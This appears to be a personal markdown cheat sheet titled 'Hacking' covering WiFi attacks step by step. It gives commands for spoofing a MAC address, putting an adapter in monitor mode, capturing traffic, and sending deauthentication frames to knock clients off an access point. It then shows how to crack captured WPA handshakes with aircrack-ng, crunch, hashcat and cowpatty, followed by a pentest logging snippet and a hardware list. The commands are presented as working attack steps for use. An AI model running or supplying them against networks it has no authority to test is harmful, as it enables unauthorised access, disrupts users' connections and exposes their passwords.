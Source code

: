 ```yaml
---
title: Hacking
date: 2020-04-03 20:32:13+01:00
author: Gaxpert
---
```


# Hacking


## Wifi

Wifi hacking
    
check wifi powers
`wavemon`
### macchanger
```
service network-manager stop
ifconfig wlan0 down
macchanger -b -a wlan0
ifconfig wlan0 up
service network-manager start
  ``` 
### airmon-ng
`airmon-ng check kill`
monitor mode
`airmon-ng start wlan0`
#### specify channel
`airmon-ng start wlan0 7`

#### Capture packets and write to file
`airodump-ng wlan0mon -w file.cap`
optional, target only one bssid
`--bssid AA:BB:CC: ....`
optional, deauth target
`aireplay-ng --deauth 100 -a AP -c CLIENT wlan0mon`

### handshakes
extract handshakes from file
`wpaclean handshakes.cap file.cap`
crack pass
`aircrack-ng handshakes.cap -w /path/to/dict.txt`
optional, use cruch as dic
 ` crunch 8 8 abcdefghijklmnopqrstuvwxyz aircrack-ng -b AA:BB:CC:DD -w - file.cap`
Or crack with hashcat (faster)


### hashcat
Stores result in ~/.hashcat/hashcat.pot

`cap2hccapx file.cap out.cap`
attention to several cap files
might need to specify network. Maybe check with "wpaclean" how many handshakes are present
`hashcat -a 0 -m 2500 all.hccapx rockyou.txt`

-a = Cracking mode
  0  = wordlist
  3  =  bruteforce
  1  = combinator

note: zsh doesnt like ? chat, use bash

charsets
?l = abcdefghijklmnopqrstuvwxyz
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
?d = 0123456789
?h = 0123456789abcdef
?H = 0123456789ABCDEF
?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_\`{|}~
?a = ?l?u?d?s
?b = 0x00 - 0xff

### Precompute PSK
`genpmk -f dict.txt -d hashes -s SSID`
ex: `genpmk -f rockyou.txt -d hashes -s TheLair`
then break with cowpatty
`cowpatty -d hashfile -r dumpfile -s ssid`


## Reporting

For pentesting, Add this to your .bashrc file:

PS1='[\`date  +"%d-%b-%y %T"\`] > ' 
test "$(ps -ocommand= -p $PPID | awk '{print $1}')" == 'script' || (script -f $HOME/logs/$(date +"%d-%b-%y_%H-%M-%S")_shell.log)

Now you can have a log of everything you did and when you did it.

## Hardware

ALFA Network AWUS036NHA + U-de Montage CS 5 dBi WiFi Adaptateur réseau

Plugable USB Bluetooth Adaptateur, 4.0 


